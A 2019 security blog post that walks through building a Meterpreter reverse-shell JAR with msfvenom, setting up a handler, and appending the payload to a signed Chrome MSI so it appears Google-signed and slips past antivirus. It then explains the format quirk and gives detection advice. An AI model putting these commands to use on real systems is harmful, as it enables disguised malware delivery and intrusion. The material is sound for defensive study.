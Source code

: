 ```yaml
---
layout: post
title: "Making Meterpreter Look Google Signed"
date: 2019-01-18
categories: meterpreter chrome msfvenom jar metasploit
---
```


In this post I’ll use some of the information made public by VirusTotal in a [recent blog post](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html) and show how you can easily create a Metasploit Meterpreter payload and append it to a signed MSI file. This will allow you to leverage the code signing from the MSI file to make your payload appear legitimately signed by Google, Inc. After I’ll cover a bit of discussion on why this technique is dangerously significant and how to investigate for its use.
We need a few prerequisites to start-

- Msfvenom
- A Google Chrome Enterprise MSI installer file
- A handler to listen for your Meterpreter session

To start, we need a Meterpreter payload in Java Archive (JAR) form. We can get this using msfvenom:

```
msfvenom -p java/meterpreter/reverse_https LHOST=<metasploit host> -f jar -o meterpreter-https.jar
```

This will output a JAR file containing the Java Meterpreter payload establishing a reverse shell over HTTPS. The payload provides us encryption to obscure commands while blending in with other HTTPS traffic. Feel free to leave the default port option, 8443, unchanged in this example. If we examine this generated payload with VirusTotal, we can see it’s definitely malicious and not signed in any way.

[https://www.virustotal.com/#/file/28ccdc1cbfe54b185b8b5ba973f672cc7ac9a52a5e034dbaab2c42a4f1e05fd2/details](https://www.virustotal.com/#/file/28ccdc1cbfe54b185b8b5ba973f672cc7ac9a52a5e034dbaab2c42a4f1e05fd2/details)

![](/assets/images/meterpreter-msi-jar/msfvenom-meterpreter-jar.png)

While here, go ahead and configure a handler to receive your Meterpreter session. In the Metasploit console, execute:

```
handler -p java/meterpreter/reverse_https -H 0.0.0.0 -P 8443
```

![](/assets/images/meterpreter-msi-jar/msf-reverse-handler.png)

Now we can use a Windows command prompt (cmd.exe) and the copy command to append our JAR file to an existing, signed MSI file. If you insist on using Linux or macOS to stage the payload, you can probably do the same append using DD. For this exercise I chose a Google Chrome Enterprise MSI installer file.

```
copy /b GoogleChromeStandaloneEnterprise64.msi + meterpreter-https.jar GoogleChromeStandaloneEnterprise64.jar
```

This action performs a binary file copy, combining the MSI and JAR files together to create a new JAR file.

![](/assets/images/meterpreter-msi-jar/copy-append-msi.png)


Now that the file exists, right-click and examine the file’s properties:

![](/assets/images/meterpreter-msi-jar/signing-info.png)

If we examine the file’s properties with VirusTotal, we can see the digital signature still exists, but it’s not valid according to VT’s tools. As a bonus, the file is detected by far fewer AV technologies than just the raw, non-appended payload.

[https://www.virustotal.com/#/file/4937f7b7fbece98a3e95d94e67d56bbba6b8a28c0c9b678d0f605a9ba55acaae/details](https://www.virustotal.com/#/file/4937f7b7fbece98a3e95d94e67d56bbba6b8a28c0c9b678d0f605a9ba55acaae/details)

Now we can actually execute the payload by double-clicking. Assuming everything has gone correctly, Meterpreter will execute within Java and connect back to your handler.

![](/assets/images/meterpreter-msi-jar/meterpreter-session.png)

From here you can move about the host with the privileges of whatever user executed the payload.

![](/assets/images/meterpreter-msi-jar/ls-results.png)

At the end of this path, you’ve generated a Meterpreter payload that isn’t signed itself but appears to be signed thanks to a quirk introduced by interactions between MSI and JAR files.

## How Is This Possible?
This trick is possible due to an issue with the MSI file format disclosed by VirusTotal in [this blog post](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html). MSI files are compound storage files that resemble databases comprised of OLE streams. This means that the content of an MSI is not truly altered when appending data to the file. The OLE streams still exist within the file, and appended data exists outside those streams. Unfortunately, DFIR professionals are conditioned to playing by code signing rules for portable executables (PEs). In these cases, code signing is a method of ensuring executable code integrity from the publisher to the consumer. Changes to the PE file will cause a mismatch and invalidate the signing data. In the case of an MSI file, appending may not harm the original file’s integrity, so the signing information is still valid. The appended payload remains a stowaway.
When the file retains a MSI extension, it will open using Windows Installer/msiexec.exe. When the file gains a JAR extension, it will open with Java given its file association. When you inspect the file’s properties, the magic number/header bytes for the file identify it as a OLE Compound File, allowing tools to parse data within and read the digital signature.

But how can Java execute a MSI file? Even if it’s renamed? That’s the beautiful part of this technique! JAR files are glorified ZIP archive files. It turns out that Java and other tools that read ZIP data will read the data from the last bytes of a file toward the first, until it encounters ZIP header bytes. In this technique, the ZIP header will occur before the MSI content. So the original MSI is not processed by Java.

## Why Is This Significant?
This is significant because it challenges how we think about digital signatures and code signing. We’ve been conditioned to think a change to a file automatically invalidates a code signature. Instead we need to take into account the variable of individual file format. What matters is the integrity of signature-guaranteed content. We need to recognize that some file changes do not trespass into the guaranteed content. Thus, no integrity is violated.
This also presents another question- Can we reorient software and security controls to recognize when a file should not be associated with appended content? Some investigators and security tools use digital signatures to shortcut decisions on the legitimacy of software. Instead, signatures should be corroborating evidence in the legitimacy decision.

In addition, this technique shows us that traditional code signing is not the only way to generate a signed malicious payload. You can sit your payload next to something already signed if the file format allows.
What value does this give adversaries? I think the technique is best suited for payload delivery. Yes, an adversary may compress files for exfiltration into a ZIP archive and append it to a MSI file to bypass data loss protection controls. I don’t think that value significantly outstrips the use of packing and encryption to hide data in an obfuscated form for exfil.

## Detecting and Investigating
Detecting an appended payload during execution will likely be difficult. Endpoint detection and response tools will observe Java executing the payload, but will not show signature data of the payload itself. Behavioral detection will rely on the payload resembling traits of Java malware. AV technology will recognize file types, but depending on configurations and specifics may not recognize the appended payload. The best way to detect this? Look for Java executing JARs from user-writable folders with suspicious network connections and establishing persistence mechanisms.

Investigating appended payloads is light work with Sysinternals SigCheck after version 2.70. This tool will validate the MSI’s digital signature and flag when appended content is present. This functionality has also been added to VirusTotal. If you want to get the original appended payload and separate it from the MSI, you can use a hex editor and cut/paste bytes after the ZIP header into a new file.